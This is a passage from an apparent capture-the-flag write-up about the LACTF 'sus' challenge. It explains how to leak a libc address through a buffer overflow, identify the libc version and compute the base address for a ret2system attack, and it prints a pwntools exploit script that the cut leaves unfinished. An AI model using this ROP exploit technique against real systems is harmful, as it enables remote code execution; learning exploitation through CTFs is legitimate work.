 ![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/2e405863-ea53-4fe8-9be5-604b118dec21)

Now that we have leaked the address of a function in libc, its time to find the version of libc that is running on the server using this [tool](https://libc.blukat.me/?q=gets%3A090%2Cputs%3A980)

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/8e31443d-861c-4716-9a19-5bb5b3696c7e)

Download any of the libc versions to test. Now that we have the correct version, we can calculate the base of libc by attaching gdb to it and run "vmmap" to see the base of libc. With that, we have all the information we need to trigger a ret2system.

### Exploit Script

{% highlight python %}
#!/usr/bin/python
from pwn import *
import warnings

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./sus_patched')
libc = ELF('./libc6_2.36-9+deb12u4_amd64.so')

host = "chall.lac.tf"
port = 31284

gdb_script = '''
b *main+70
c
'''

#p = exe.process()
p = remote(host,port)
#p = gdb.debug('./sus', gdbscript = gdb_script)

putsGot = exe.got["puts"]
getsGot = exe.got["gets"]
putsPlt = exe.plt["puts"]
mainSym = exe.sym["main"]

payload = b"A" * 56
payload += p64(getsGot) * 2
payload += p64(putsPlt)
payload += p64(mainSym)

p.sendlineafter(b"sus?\n", payload)
leak = p.recvline().strip().ljust(8, b"\x00")
leak = u64(leak)
log.info(f"Gets leak : {hex(leak)}")

#payload = b"A" * 56
#payload += p64(putsGot) * 2
#payload += p64(putsPlt)
#payload += p64(mainSym)

#p.sendlineafter(b"sus?\n", payload)
#leak = p.recvline().strip().ljust(8, b"\x00")
#leak = u64(leak)
#log.info(f"Puts leak : {hex(leak)}")

#gdb.attach(p)
libc.address = leak - (0x007f49f983e090 - 0x007f49f97c7000)
log.info(f"Libc base : {hex(libc.address)}")

pop_rdi = libc.address + 0x00000000000277e5
ret = pop_rdi + 1
system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh\x00"))
log.info(f"Pop rdi : {hex(pop_rdi)}")